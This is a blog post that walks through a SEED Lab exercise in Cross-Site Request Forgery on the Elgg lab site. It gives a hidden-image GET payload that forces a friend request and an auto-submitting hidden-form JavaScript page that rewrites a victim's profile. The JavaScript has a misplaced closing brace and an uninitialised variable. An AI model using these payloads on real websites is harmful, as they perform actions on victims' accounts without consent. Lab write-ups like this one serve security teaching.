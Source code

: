 ```yaml
---
layout: post
title: Cross-Site Request Forgery
excerpt: Cross-Site Request Forgery is a type of attack in which an attacker tricks a user to visit a malicious page that can send a forged request to a targeted website on behalf of the victim. The goal of a CSRF attack can vary, but usually, it involves performing actions on behalf of the targeted user without their consent or knowledge like withdrawing money from their bank account, changing their password, making a purchase, etc.
categories: csrf
---
```


When a page from a website sends an HTTP request back to the website, it is called same-site request; if the request is sent to a different website, it is called cross-site request.

So suppose Bob is logged into Facebooked and he visits a malicious web page, the malicious webpage can craft a request on behalf of Bob and send it to Facebooked. If Facebooked is non the wiser, Facebooked will think it is Bob who made such request. This is the goal of Cross-Site Request Forgery (CSRF).

Cross-Site Request Forgery is a type of attack in which an attacker tricks a user to visit a malicious page that can send a forged request to a targeted website on behalf of the victim. The goal of a CSRF attack can vary, but usually, it involves performing actions on behalf of the targeted user without their consent or knowledge like withdrawing money from their bank account, changing their password, making a purchase, etc.

Then in the example I gave above, how can Facebooked be wiser? Facebooked developers can implement countermeasures such as CSRF tokens. These tokens are unique values generated by the server and included in forms or requests. The browser must include this token with each request, and the server verifies its validity before processing the action, ensuring that the request actually originates from Facebooked.

In this post, I aim to document my findings and observations while performing a SEED Lab.

<br>

### CSRF Attack using GET Request

In this task, we have two users, Samy and Alice in the Elgg social network and the Elgg social network countermeasures against CSRF has been disabled. Samy wants to become a friend to Alice, but Alice refuses to add him to her Elgg friend list. Samy thus decides to use a CSRF attack to add himself to Alice's friend list.

To accomplish this, Samy sends a URL to Alice; Alice, being curious, clicks on the URL, which leads her to Samy’s web site: `www.attacker32.com`. By just Clicking on that malicious link, the attack has already happened (and is successful so far Alice is logged in). To Alice, she is viewing a beningn web page.

For the purpose of this task, I assume the user, Samy.

- To add a friend to the victim, Samy needs to identify what the legitimate Add-Friend HTTP request looks like. To do this, he can add another user on the Elgg social network while monitoring the requests the browser makes when he does so.

  - The request is `http://www.seed-server.com/action/friends/add?friend=57&__elgg_ts=1691160380,1691160380&__elgg_token=e44ks44KdSrhoXnb4p-Wsg,e44ks44KdSrhoXnb4p-Wsg`
 
    ***image***
 
  - However, since the CSRF countermeasures has been disabled, the request is `http://www.seed-server.com/action/friends/add?friend=57`. Where `57` is the ID of the user.
 
  - Samy nees to find his own ID and substitute the number. The request now becomes `http://www.seed-server.com/action/friends/add?friend=59`

- Next Samy crafts a malicious web page that once Alice visits, The friend request is made on behalf of Alice even without any interaction from Alice.

  - Samy designs a web page and embeds within it an image tag that makes the request.
 
    ```
    <html>
    <body>
    <h1>This page forges an HTTP GET request</h1>
    <img src="http://www.seed-server.com/action/friends/add?friend=59" alt="image" width="1" height="1" />
    </body>
    </html>
    ```

- Next Samy gets Alice to visit the malicious website `www.attacker32.com/addfriend.html`. Alice upon opening the website doesn't realize an attack just took place.

  **image**

If we check Alice friends list, we can see that indeed the attack was successful as Samy is now a friend of Alice.

***image***

<br>

### CSRF Attack using POST Request

In this task, samy is not satisfied that he is now on Alice friends list, he wants Alice profile page to say “Samy is my Hero”, so everybody knows Alice adores him. But Alice does not like Samy, so she will never put that statement in her profile. Samy thus decides to use a CSRF attack to edit Alice's profile to say “Samy is my Hero”.

To accomplish this, Samy sends a URL to Alice; Alice, being curious, clicks on the URL, which leads her to Samy’s web site: `www.attacker32.com`.

For the purpose of this task, I assume the user, Samy.

- To edit the profile page of the victim, Samy needs to identify what the legitimate profile edit HTTP request looks like. To do this, he can edit his own page on the Elgg social network while monitoring the requests the browser makes when he does so.

  - It is a post request made to `http://www.seed-server.com/action/profile/edit`
 
    **image**
 
  - The post request has a number of parameters that are set. However, the parameters that are important for Samy during the attack are: "name", "briefdescription", "accesslevel[briefdescription]", and "guid".
 
    ```
    For this attack, the parameters would be
    name: Alice
    briefdescription: "Samy is my Hero"
    accesslevel[briefdescription]: 2 (this sets the section to be public)
    guid: 56 (this is Alice guid)
    ```

- Next Samy crafts a malicious web page that once Alice visits, a request is made on behalf of Alice to edit her profile page. This webpage would have Javascript code that would be responsible for making the request.

  Samy designs a web page with malicious Javascript code that makes the request.

  ```javascript
  <html>
  <body>
  <h1>This page forges an HTTP POST request.</h1>
  <script type="text/javascript">
  
  function forge_post()
  {
      var fields;
  
      // The following are form entries need to be filled out by attackers.
      // The entries are made hidden, so the victim won't be able to see them.
      fields += "<input type='hidden' name='name' value='Alice'>";
      fields += "<input type='hidden' name='briefdescription' value='Samy is my hero'>";
      fields += "<input type='hidden' name='accesslevel[briefdescription]' value='2'>";         
      fields += "<input type='hidden' name='guid' value='56'>";
  
      // Create a <form> element.
      var p = document.createElement("form");
  
      // Construct the form
      p.action = "http://www.seed-server.com/action/profile/edit";
      p.innerHTML = fields;
      p.method = "post";
  
      // Append the form to the current page.
      document.body.appendChild(p);
  
      // Submit the form
      p.submit();

  // Invoke forge_post() after the page is loaded.
  window.onload = function() { forge_post();}
  </script>
  </body>
  </html>
  }
  ```

- Next Samy gets Alice to visit the malicious website `www.attacker32.com/editprofile.html`. Alice upon opening the website doesn't realize an attack just took place.

  **image**

If we check Alice profile page, we can see that indeed the attack was successful as "Samy is my hero" is on Alice's profile page.

***image***














